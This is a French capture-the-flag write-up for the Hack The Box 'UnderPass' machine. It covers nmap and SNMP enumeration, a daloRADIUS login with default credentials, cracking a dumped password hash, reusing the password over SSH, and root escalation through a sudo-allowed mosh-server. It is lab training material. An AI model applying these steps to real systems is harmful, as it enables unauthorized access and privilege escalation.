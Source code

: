 ```yaml
---
title: Machine - underpass
---
```


## Machine
+ URL : [Underpass](https://app.hackthebox.com/machines/UnderPass)
+ Difficulté : easy


## Enumération initiale
Enumeration TCP via `nmap -sV <IP>`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 13:06 CET
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumeration UDP via `nmap -sU <IP>`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:07 CET
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.015s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 115.88 seconds
```

## Port 80
En se rendant sur le port 80 de la machine via un navigateur web on tombe sur la page par défaut d'Apache2 pour Ubuntu.

## Port 161
Le port 161 est en ecoute pour le service SNMP. On peut en tirer des informations via `snmp-check <IP>`

```
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 04:54:08.70
  Uptime system                 : 04:53:58.28
  System date                   : 2025-1-20 08:55:30.0
```

La partie `hostname` nous donne l'information que ce serveur heberge [daloradius](https://www.daloradius.com/), un GUI web pour manager un serveur FreeRadius.

## Enumeration de repertoire sur le serveur web
On va essayer d'énumérer des potentiels repertoires qui pourraient être sur `http://<IP>/daloradius`.

On utilise `dirsearch -u http://<IP>/daloradius -r`.

On trouve notamment ces deux URLs qui sont deux pages de login :

+ http://<IP>/daloradius/app/users/login.php
+ http://<IP>/daloradius/app/operators/login.php

## Accès au dashboard daloradius

Sur la doc de daloradius, on trouve que le couple `login:password` par defaut est `administrator:radius`

En testant sur les deux URLs precedemment trouvée, ce couple fonctionne pour `/operators/login.php`

{{ image(url="dashboard_daloradius.jpg", no_hover=true) }}

## Accès au serveur

Via le dashboard il est possible de lister les utilisateurs. Ceci nous donne aussi le hash de leur mot de passe.

{{ image(url="list_users.jpg", no_hover=true) }}

On peut alors essayer de trouver le mot de passe en clair de l'utilisateur. Via [crackstation](https://crackstation.net/) par exemple.

{{ image(url="hash_crack.jpg", no_hover=true) }}

Le mot de passe de l'utilisateur `svcMosh` est `underwaterfriends`.

Les machines Hackthebox utilisent souvent le même procédé : un mot de passe trouvé sera souvent le mot de passe du même utilisateur sur la machine.

En testant de se connecter en SSH en tant que `svcMosh` sur la machine avec le mot de passe `underwaterfriends`, on n'echappe pas à la règle et la connnexion fonctionne. On récupère donc le flag `user`.

{{ image(url="logged.jpg", no_hover=true) }}

## Flag root
### Listing sudo

En tant que `svcMosh` on lance `sudo -l` pour voir à quoi l'on a accès. On voit que l'on peut lancer `/usr/bin/mosh-server` sans mot de passe en tant que root.

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

### Analyse du fichier `/usr/bin/mosh-server`

Il s'agit d'un binaire lié à `mosh`, un outil permettant de remplacer les shell interactifs SSH.

En regardant la documentation on voit que `mosh-server` permet de lancer un serveur mosh auquel un client mosh pourra se connecter. En lançant `sudo mosh-server`, on lance donc un serveur mosh en tant que root.

Une fois ce serveur lancer, il nous suffit de faire `MOSH_KEY='<KEY>' mosh-client <IP> <PORT>` pour se connecter au serveur et etre root ! Les valeurs de `<PORT>` et de `<KEY>` sont données par le retour de la commande `sudo mosh-server`.


{{ image(url="root_logged.jpg", no_hover=true) }}

And voila, nous sommes `root` sur cette machine.